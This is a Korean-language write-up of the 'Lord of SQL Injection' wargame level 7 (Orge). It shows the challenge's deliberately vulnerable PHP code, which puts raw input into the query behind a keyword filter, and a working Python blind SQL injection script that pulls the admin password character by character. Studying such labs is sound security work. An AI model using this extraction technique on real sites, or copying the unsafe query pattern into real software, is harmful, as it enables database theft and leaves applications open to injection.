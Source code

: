 # Lord of SQL Injection No.7 - Orge
## 문제 출제 의도
1. 'and', 'or' 없이 Blind SQL Injection의 가능 여부 확인.
## 소스 코드
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
    highlight_file(__FILE__); 
?>
~~~
## 분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - GET방식으로 받은 pw값에 "or", "and"중 하나라도 있다면 "HeHe"가 출력되고 문제풀이에 실패한다.
+ 풀이 성공 조건
    - 입력한 pw와 데이터 베이스에서 받아온 실제 pw가 같아야 한다.
## 문제 해결
1. Blind SQL Injection
    - 다음과 유사한 코드로 pw 값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote
    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
            data="' || id='admin' && substr(pw,1,{})='{}'#".format(str(i), key + chr(j))
            print(data)

            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=uavhq5il3tafpfo9kr7uiqusu4")

            res = urllib.request.urlopen(re)

            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 이는 "6c864dec" 출력한다.
    - "6c864dec"을 GET방식으로 pw에 입력하면 문제 풀이에 성공한다.